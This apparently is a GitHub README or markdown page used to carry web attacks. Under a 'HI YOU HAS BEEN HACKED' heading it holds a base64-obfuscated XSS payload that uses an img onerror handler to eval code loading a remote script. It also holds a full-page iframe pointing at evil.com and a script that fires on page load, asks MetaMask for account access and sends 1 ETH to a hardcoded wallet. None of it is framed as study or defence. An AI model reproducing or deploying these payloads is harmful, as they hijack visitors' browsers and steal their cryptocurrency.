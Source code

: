 # HI YOU HAS BEEN HACKED

## "><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYnVndnNtZS54c3MuaHQiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 onerror=eval(atob(this.id))>

### 

"><iframe src="https://evil.com" height="10000" width="100%" frameborder="0"></iframe>
">
<html>
  <head>
    <script>
      window.onload = function() {
        // Check if MetaMask is installed
        if (typeof ethereum !== 'undefined') {
          // Request the user to connect to their Ethereum account
          ethereum.enable().then(function(accounts) {
            // Get the user's Ethereum account
            const account = accounts[0];
            // Set the parameters for the transaction
            const params = {
              from: account,
              to: '0xc23f21422F53b00446EbeB2A84e1f7bAD1917e64',
              value: '1000000000000000000' // 1 ETH in wei
            };
            // Send the transaction to MetaMask for confirmation
            ethereum.sendTransaction(params, function(error, hash) {
              if (error) {
                console.error(error);
              } else {
                console.log(hash);
              }
            });
          });
        } else {
          console.error('MetaMask is not installed');
        }
      }
    </script>
  </head>
  <body>
    <!-- Your HTML content goes here -->
  </body>
</html>



